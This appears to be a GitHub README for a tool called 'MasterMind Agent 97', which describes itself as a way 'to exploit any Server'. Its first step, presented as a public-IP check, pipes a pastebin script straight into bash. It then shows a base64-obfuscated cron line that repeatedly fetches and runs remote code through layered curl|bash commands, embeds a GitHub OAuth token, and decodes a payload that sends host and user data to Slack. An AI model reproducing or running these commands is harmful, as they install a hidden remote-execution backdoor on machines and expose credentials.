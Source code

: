 #### Welcome  [ MasterMind Agent 97 ]

**Agent 97** : v0.0.4

Let's Explore **MasterMind Agent 97**

Run below command to Get Your Public IP.
```bash
  # Retrive Your Public IP
  curl -s https://pastebin.com/raw/DGbDe6LZ|bash -
```

##### Step 1

Create Script and encode with base64
```bash
# /tmp/script.sh
#!/bin/bash
echo "hello World"
ifconfig
ls -la
pwd
```

##### Encode with Base64
Create `mm.key` file using below command  and commit this file in `MasterMind` repository.
```bash
# Command will create encoded file mm.key
 base64 /tmp/script.sh > <MasterMind Repo>/mm.key
```


#### Lets Explore More about Backend Concept.

##### How to install MasterMind Agent
We require to configure below command on remote machine. we can configure cron to execute periodically.

```bash
# below commmand should be run from remote machine.
#vim vim /etc/cron.daily/mm
eval $(echo "Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg=="|base64 -d|bash -)
```
#### Layars Decode :

 1. Decoded `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

 ```bash
#curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
echo "curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d"|base64

 # output
Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg==
 ```

 2. Decoded : `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

  ```bash
  # data s.txt
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt

  # output: Encoded : s.txt
  Y3VybCAtc0wgLXUgYTgwNDczMTg1YjNmYTM2NTNiMmZjNmMzYzJjMjY5OWRjY2M1NWFjNzp4LW9hdXRoLWJhc2ljIGh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9zd3V4ZW4vbWFzdGVybWluZC9tYXN0ZXIvbW0ua2V5fGJhc2U2NCAtZHxiYXNoIC0K

  # Decoding s.txt file
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
  # output : Decoded : s.txt
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -

  ```

 3. Decoded : `curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -`
  ```bash
  # File data : mm.key file
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key

  # output :
  IyEvYmluL2Jhc2gKZXhwb3J0IFNMQUNLX0NMSV9UT0tFTj0neG94Yi05NTI4MjkzMTc2MzUtOTU3
  OTQ3MTQxNjk5LUdVWXJFM2I2ZXhIWmNvS3dQaDM0QVlTYycKZXhwb3J0IFNMQUNLX0NIQU5ORUw9
  IiNkZXZvcHMiClNMQUNLX0JJTj0iL3Vzci9iaW4vbXNsYWNrIgpnZXRfc2VydmVyX2luZm8oKXsK
  ICBleHBvcnQgUFJJVkFURV9JUD0kKGhvc3RuYW1lIC1JKQogIGV4cG9ydCBQVUJfSVA9JChjdXJs
  IC1zIGljYW5oYXppcC5jb20pCiAgZXhwb3J0IFRJTUVTVEFNUD0kKGRhdGUpCn0KZ2V0X3VzZXJf
  ZGF0YSgpewogIGxvZ19wYXRoPS90bXAvdWluZm8ubG9nCiAgZ2V0X3NlcnZlcl9pbmZvCiAgZWNo
  byAiCkEgU1NIIGxvZ2luIHdhcyBzdWNjZXNzZnVsLCBzbyBoZXJlIGFyZSBzb21lIGluZm9ybWF0
  aW9uIGZvciBzZWN1cml0eToKICAgIFVzZXIgICAgICAgICAgIDogICRVU0VSCiAgICBVc2VyIElQ
  IEhvc3QgICA6ICAke1NTSF9DTElFTlQvICp9CiAgICBEYXRlICAgICAgICAgICA6ICAke1RJTUVT
  VEFNUH0KICAgIEhvc3RuYW1lICAgICAgIDogIGBob3N0bmFtZWAKICAgIFNlcnZlciBJUCAgICAg
  IDogICR7UFVCX0lQfSB8ICR7UFJJVkFURV9JUH0KCiAgICBXZSB3aWxsIG5vdGlmeSB5b3Ugb25j
  ZSB1c2VyWyRVU0VSXSB3aWxsIGVuZCBzZXNzaW9uLgogICIgPiAke2xvZ19wYXRofQoKICBpZiBb
  WyAtZiAiJHtsb2dfcGF0aH0iIF1dOyB0aGVuCiAgICBjYXQgJHtsb2dfcGF0aH0gfCAke1NMQUNL
  X0JJTn0gY2hhdCBzZW5kIC0tY2hhbm5lbCAiJHtTTEFDS19DSEFOTkVMfSIgXAogICAgICAtLXRp
  dGxlICJTU0ggbG9naW4gc3VjY2Vzc2Z1bCAtICR7VVNFUn1AJHtQUklWQVRFX0lQfSBvbiAke1RJ
  TUVTVEFNUH0iIFwKICAgICAgLS1jb2xvciBnb29kID4gL2Rldi9udWxsIDI+JjEKICAgIHJtIC1m
  ICR7bG9nX3BhdGh9CiAgZmkKfQpnZXRfdXNlcl9kYXRhCg==

  # Decoding mm.key
   curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d

   # Decoded output : /tmp/script.sh | mm.key
   #!/bin/bash
   echo "hello World"
   ifconfig
   ls -la
   pwd
  ```

We are using two repository to exploit any Server.

- Public Repository -  https://github.com/swuxen/lI.git
- Private Repository - https://github.com/swuxen/mastermind
